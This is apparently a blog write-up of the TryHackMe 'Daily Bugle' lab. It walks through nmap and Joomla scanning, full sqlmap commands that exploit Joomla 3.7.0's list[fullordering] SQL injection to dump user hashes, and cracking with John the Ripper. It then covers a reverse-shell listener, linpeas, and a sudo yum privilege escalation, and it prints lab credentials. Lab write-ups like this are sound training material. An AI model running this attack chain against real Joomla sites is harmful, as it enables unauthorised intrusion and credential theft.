 ```yaml
---
layout: post
permalink: /posts/thm/daily-bugle
title: "Daily Bugle"
---
```


Scan the target machine with nmap

```
nmap -sC -sV <ip>
```

![nmap-scan](/assets/images/thm/daily-bugle/nmap-scan.png)

There are 3 open ports: 22, 80 and 3306. Visit the website

![website](/assets/images/thm/daily-bugle/website.png)

Wow.. Spider-man is accused of robbery. We don't have any additional imformation. Let's scan the target with Gobuster.

![gobuster](/assets/images/thm/daily-bugle/gobuster.png)

We have found that there is /administrator page.

![login-form](/assets/images/thm/daily-bugle/login-form.png)

We know the web site uses CMS Joomla. Let's use joomlascan.

```
/opt/joomscan/joomscan.pl -u http://10.10.255.36
```

![joomla-version](/assets/images/thm/daily-bugle/joomla-version.png)

We find out the Joomla version. Now we are going to use searchsploit to find a vlunerability for this version.

```
searchsploit joomla 3.7.0
```

![searchsploit](/assets/images/thm/daily-bugle/searchsploit.png)

![searchsploit-view](/assets/images/thm/daily-bugle/searchsploit-view.png)

This exploit shows us that we are going to use sqlmap

```
sqlmap -u "http://10.10.255.36/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![sqlmap1](/assets/images/thm/daily-bugle/sqlmap1.png)

Let's try to find the credentials in joomla. We can find the table name in the joomla documentations: <https://docs.joomla.org/Tables/users>

![joomla-table](/assets/images/thm/daily-bugle/joomla-table.png)

```
sqlmap -u "http://10.10.255.36/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```

![sqlmap2](/assets/images/thm/daily-bugle/sqlmap2.png)

It looks we need to add the columns. Stop the scan, we have already had them from the documentation.

```
sqlmap -u "http://10.10.255.36/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' -C id,name,username,email,password,usertype,block,sendEmail,registerDate,lastvisitDate,activation,params --dump
```

We found the user jonah and his hashed password. We are going to use <https://hashcat.net/wiki/doku.php?id=example_hashes> to identify the hash and John the Ripper to crack it.

![hash-code](/assets/images/thm/daily-bugle/hash-code.png)

```
john hash.txt --wordlist=rockyou.txt --format=bcrypt
```

![john-result](/assets/images/thm/daily-bugle/john-result.png)

We were able to log in /administrator directory with jonah:spiderman123
The web interface confirms that jonah is a superuser of the joomla installation.

![super-user](/assets/images/thm/daily-bugle/super-user.png)

This means we can edit the template used by the blog.

On the top menu go to Extensions -> Templates -> Templates

![templates](/assets/images/thm/daily-bugle/templates.png)

Now create new file

![create-file](/assets/images/thm/daily-bugle/create-file.png)

Paste monkeyReverseShell in it and start listener

```
nc -lvnp 1234
```

go to

![url](/assets/images/thm/daily-bugle/url.png)

![shell](/assets/images/thm/daily-bugle/shell.png)

Stabalize shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

We are going to use linpeas

```
cd /dev/shm
```

![download](/assets/images/thm/daily-bugle/download.png)

```
./linpeas.sh
```

![linpeas](/assets/images/thm/daily-bugle/linpeas.png)

Linpeas found clear text password and we had found username jjameson in /home. Let's try to ssh with this password nv5uz9r3ZEDzVjNu

![ssh](/assets/images/thm/daily-bugle/ssh.png)

Let's find out if jjameson is allowed to do something as another user

![sudo-l](/assets/images/thm/daily-bugle/sudo-l.png)

go to <https://gtfobins.github.io/gtfobins/yum/#sudo>

![gtfo](/assets/images/thm/daily-bugle/gtfo.png)

Simply copy and paste the example code from gtfobin

![poc](/assets/images/thm/daily-bugle/poc.png)
